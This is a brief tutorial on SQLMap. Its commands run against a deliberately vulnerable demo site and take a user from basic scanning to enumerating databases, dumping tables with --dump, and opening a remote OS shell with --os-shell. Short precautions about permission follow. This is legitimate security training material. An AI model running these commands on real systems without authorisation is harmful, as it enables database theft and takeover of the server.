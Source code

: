 
Finding Vulnerabilities using SQLMap
=====================================

<br>

# Introduction
---------------
> SQLMap is a popular open-source tool used for detecting and exploiting SQL injection vulnerabilities in web applications. This article will guide you through using SQLMap for educational purposes.

<br>

Prerequisites
----------------
- Basic understanding of SQL and web application security
- SQLMap installed on your system (Windows, Linux, macOS)
- A test environment or deliberately vulnerable web application (e.g., DVWA)
  
# Understanding SQL Injection
-----------------------------
> SQL injection occurs when an attacker injects malicious SQL code into a web application's database.
- Types of SQL Injection
- Classic SQL Injection
- Blind SQL Injection
- Time-Based Blind SQL Injection
- Boolean-Based Blind SQL Injection
  
# Using SQLMap
1. Basic Scan
```Bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
-u specifies the URL to scan
http://testphp.vulnweb.com/listproducts.php?cat=1 is the vulnerable URL
```
2. Identifying Vulnerable Parameters
```Bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php" --data "cat=1"
```
3. Enumerating Database Information
```Bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --banner
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D database_name
```
4. Dumping Database Contents
```Bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D database_name -T table_name --dump
5. Exploiting Vulnerabilities
Bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```
Tips and Precautions
-----------------------
Obtain permission before testing
Use SQLMap in a controlled environment
Keep SQLMap updated
Conclusion
----------
SQLMap is a powerful tool for identifying SQL injection vulnerabilities.
Additional Resources
----------------------
SQLMap documentation: 
DVWA (Damn Vulnerable Web Application): 
